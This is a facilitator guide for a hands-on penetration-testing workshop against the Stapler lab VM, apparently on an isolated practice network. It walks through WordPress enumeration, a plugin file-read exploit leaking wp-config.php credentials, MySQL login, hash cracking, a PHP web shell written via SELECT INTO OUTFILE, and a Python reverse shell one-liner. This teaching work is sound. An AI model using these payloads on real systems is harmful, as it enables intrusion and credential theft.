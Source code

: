 ```yaml
---
author: bhero
topic: dojo
---
```


Facilitator guide

# Part 1 - 30 - 45 min

Objective: Help everyone get set up

## Tasks
1. Explain the dojo
2. Explain the network - draw diagram
3. Assist in setup

No cheat sheets here, all the notes are in the exercise file


# Part 2 - 30 - 45 min

Objective: Get everyone to be able to scan the target

## Tasks
1. Explain the process as an overview - draw diagram 
2. Intorduce the recon/scanning concept
3. Introduce nmap and let attendees follow the guide
4. force a recap after 30/45 min

# Part 3 - 60 min

Objective: Complete analysis

1. Introduce reverse shells - draw diagram
2. demo hydra syntax after 30 min
3. encourage googling
4. answer questions on the services
5. demo manual interactions as required

# Part 4 - 30 min

Objective: get remote code execution

## Tasks

1. Pull everyone in to get them to the same stage
2. Demo a vector from the walkthrough

key notes before attack - the plugin is vulnerable to LFI
This allows access to root dB creds, with this we can get full shell access.

This section varies with skill of audience, many folks may just want a demo others hints.
Preferred vector is progromatic exploit as audience are devs

can also steal/guess username and break password - cover how to do this via hydra tutorial

explain there is way in with a code vulnerability, show exploit dB and searchsploit and rev shells

Attack the webserver via wordpress upload.
get the nikto scan: (set the var STAPLER_IP)

```
nikto -h https://$STAPLER_IP:12380/blogblog/ > HTTPSblogblog.txt
```

start scripts to identify the wp_users and the plugins:

```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate u --disable-tls-checks -o wpscan_users.txt
```

```
wpscan --url https://$STAPLER_IP:12380/blogblog/ --enumerate ap --disable-tls-checks --plugins-detection aggressive -o wpscan_plugins.txt
```

while running show the dir listing issue and visit the plugins url: 
https://192.168.56.104:12380/blogblog/wp-content/plugins/

poke about - highlight the uploads:
https://192.168.56.104:12380/blogblog/wp-content/uploads/

mention plugins are usually the weakness

use searchsploit:

```
searchsploit wordpress plugin video advanced
```

read in terminal

```
less /usr/share/exploitdb/exploits/php/webapps/39646.py 
```

explain that it forces an upload of an 'image' because $thumb not secure, no file type check implemented. - check the inputs would fix this.

a POC:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/passwd`

go to uploads and view the picture
explain it is text not jpg, so we curl

example:

```
curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/108293608.jpeg
```

now we check the wp-config because it has dB access details:
https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php


get mysql root password onliner example:

curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/1006632345.jpeg

login and get passwords

```
mysql -h $STAPLER_IP -u root -pplbkac 
use wordpress;
select user_login,user_pass from wp_users;
```

close the connection and get the editied file: [wp_users.txt](/assets/vulnhub_stuff/stapler/wp_users.txt)

break the passwords with:

john wp_users.txt -wordlist=/usr/share/wordlists/rockyou.txt
this would let you login, but we all use super big passwords right?

so we won't wait, lets revisit the exploit to get the server root of the webserver via default config, explain apache config

https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=/etc/apache2/sites-enabled/000-default.conf

curl it to see DocumentRoot /var/www/https can be enumerated from /etc/apache2/sites-enabled/000-default.conf

login again and pop a wbshell in

```
mysql -h $STAPLER_IP -u root -pplbkac 
select "<?php echo shell_exec($_GET['cmd']);?>" into outfile '/var/www/https/blogblog/wp-content/uploads/mysql-shell.php';
```

check it works example:

https://192.168.56.105:12380/blogblog/wp-content/uploads/mysql-shell.php?cmd=ls


time to get a shell:
set listner on port 21 
then go here:
https://192.168.56.104:12380/blogblog/wp-content/uploads/system-webshell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

do stuff, show execution!

spawn bash:
``` sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

do stuff, show execution!

ctrl^Z it and get a ptty:
```
stty raw -echo
fg
```

do stuff, show execution!


> This is the biggest section of the dojo. Recap here

# Part 5 60 min

Objective: get root

## Tasks

1. Demo all the ways that were not picked up in order to get root - show the walkthrough
2. wrap up
3. feedback

## Recommended Resources

tutorial site for each manual step

next up [Attacking](Stapler-Dojo-Part-4.html)